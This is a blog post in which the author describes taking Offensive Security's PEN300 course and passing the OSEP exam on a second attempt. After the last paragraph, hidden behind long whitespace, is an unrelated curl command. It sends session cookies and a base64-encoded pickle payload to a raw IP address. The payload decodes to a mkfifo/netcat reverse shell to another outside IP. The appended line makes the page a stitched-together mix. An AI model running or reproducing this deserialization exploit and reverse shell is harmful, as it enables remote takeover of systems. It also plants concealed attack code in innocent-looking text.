 ```yaml
---
layout: post
permalink: /blogs/:title/
title:  "OSEP Journey!"
---
```


I mentioned in my OSCP Journey post that I wanted to tackle PEN300 after completing PEN200. I'm happy to share that I've completed this task. It's done! I completed Offensive Security's penetration path. From the basics in PEN200 (OSCP) to the gruesome active directory sets in PEN300, i'm really thankful for this learning opportunity. Again, I truly believe Offensive Security has done many things right. One of them being the vision to spread knowledge and educate upcoming generations about cybersecurity through quality challenges.

## What PEN300 is
In the screenshots below, you'll find the course topics. Some of which are really exciting such as active directory exploitation & advanced antivirus evasions and others (i.e., kiosk breakouts), perhaps not so much. 
![](/screenshots/osep-journey/2022-10-20_02-40.png)

PEN300 teaches advanced penetration testing in active directory environments, as well as red team skills such as phishing attacks. If you have spent enough time studying for OSCP and are now OSCP certified, I believe you are ready for OSEP. PEN300 is designed in such a way that PEN200 certified students can transition smoothly into it. However, you would still need to invest time and effort in studying, understanding, and ultimately implementing the provided codes in your own penetration testing. Furthermore, if you're wondering if C# knowledge is **required**, I personally didn't have much prior C# experience but was able to read and understand code.


## The Journey
In May 2022, I began the PEN300 course with a three-month package. This was right after my university finals, and I was ecstatic about the course syllabus. I have to admit that I became quite complacent in the early stages of the course. I could have finished the course content in a month because I had so much free time, but I didn't. I completed roughly half of the course content and had to struggle for the second and third months due to the start of an internship that I had ongoing.

Unlike in OSCP, where I practiced on platforms like Proving Grounds, my approach during PEN300 was quite different. Before attempting the lab challenges, the todo was to read/watch all course content. There were six lab challenges that tested your knowledge of the course materials. The difficulty of these lab challenges varies, with Challenge 1 being the easiest and Challenge 6 being rather...challenging. With my work obligations, I was barely making time for the lab challenges. Unexpectedly, my wallet suffered, and I had to buy a lab extension. 

The takeaway for anyone reading this section would be that: it is definitely possible to finish the course content + lab challenges in 3 months. 3 months is plenty of time if you're not complacent like me! After the completion of Challenge 6, i scheduled my exam in two weeks. During these two weeks, I didn't really practice much as my university had started at around this time. 

## Exam Attempts 1 & 2
Yes, I took the exam twice and passed on the second try. To pass OSEP, students must find 10 flags (each flag is worth 10 points), and unfortunately, I bottlenecked at the 9th flag on my first attempt. I passed the second time around with 13 flags! Both exam sets were distinct, putting you in a new environment each time. With regards to sleep, in attempt 1, I slept 11 hours and in attempt 2, I slept 4 hours. 

At the end of the 48-hour exam, I felt like I'd aged ten years! Not to mention the fact that I needed to spend the next 24 hours writing the report. However, don't let this discourage you. It was fulfilling studying for a 300-level course, going through the exam sets and finally receiving the "Congratulations!"

The one thing I have learnt from both attempts, is to try harder and try everything. In some occasions, if exploit XXX failed once, I would give up testing the exploit. However, when I backtracked and went back to test the exploit a second time (hours later), it would work! 

## Is course material enough?
Well...yes, and no. Everything covered in the course materials, in my opinion, is sufficient. However, in order to succeed in PEN300, you will need to use your OSCP methodologies. This course will provide you with advanced content, but you will ultimately have to put the pieces together and use critical thinking during the exam. When compared to their course materials, Offsec's exams are always more difficult.

## What's Next
Moving forward, I intend to create a chained active directory set that incorporates various penetration testing methodologies and the MITRE framework, as I have one month of university holidays in December 2022. The goal of this mini project is to give back to Offensive Security in the form of [User-Generated Content](https://www.offensive-security.com/labs/submit/). Along the way, I'd get to learn the intricacies of machine design and box development:).

                      curl --cookie "sessionID=ed93673812c34b238655beef4eced1e2;sessionToken=0LEm5/uAwLt9E+Q35nlGjh2d4drk3GuUetTAvYjCNUtbx3HeUjtlp/NEjP8nG6+6FDFVM76fFjzUMc2ow9oo88PSNJ/ZX1x1NUZeQhJEnIhuCes8//d7IXx3dzW9SUEu" -X POST -H "Content-Type: application/json" -d "{\"admin\":\"gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI-JjEgfCBuYyAyMTkuNzQuMTczLjE2MyA0NDMgPiAvdG1wL2aUhZRSlC4=\"}" http://209.97.172.155/newadmin